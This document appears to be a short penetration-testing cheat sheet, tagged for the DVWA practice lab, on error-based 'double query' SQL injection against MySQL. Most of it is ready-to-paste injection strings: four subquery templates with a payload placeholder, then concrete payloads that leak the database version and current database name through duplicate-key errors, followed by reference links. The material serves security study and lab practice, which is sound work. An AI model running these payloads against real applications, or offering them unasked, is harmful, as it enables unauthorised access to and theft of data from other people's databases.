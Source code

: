 # 01 - Database Reconnaissance

Search Tag(s): #sql-injection #error-based #dvwa

## 1.1 - SubQuery (Double Query) Injection

- Subquery injection is often referred as double injection. It is the second method other than union technique. In contrast, the SQL query is more difficult to read yet it can serve as alternative to retrieve data.

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((<SQL_Payload>),0x3a,FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(':', ':', (<SQL_Payload>),':', ':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#

1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT(0x3a, 0x3a, (<SQL_Payload>),0x3a, 0x3a, FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

## 1.2 - Enumeration and Discovery

### 1.2.1 - Banner Grab

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT VERSION()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

### 1.2.2 - Current Database

```sql
1' OR (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT DATABASE()),':',FLOOR(RAND(0) * 2)) grouped_table FROM information_schema.tables GROUP BY grouped_table) subquery)#
```

---
## References

- [SecurityIdiots: Error-Based Injection Subquery Injection](https://securityidiots.com/Web-Pentest/SQL-Injection/Error-Based-Injection-Subquery-Injection.html)

### Videos

- [SQL Injection Master Course - Lecture 16 - Important 26 Commands for Advance SQL Injection](https://www.youtube.com/watch?v=Be60oqlFYHw)

- [SQL Injection Master Course - Lecture 17 - Double Query Injection](https://www.youtube.com/watch?v=QFy1Ejn-5mU)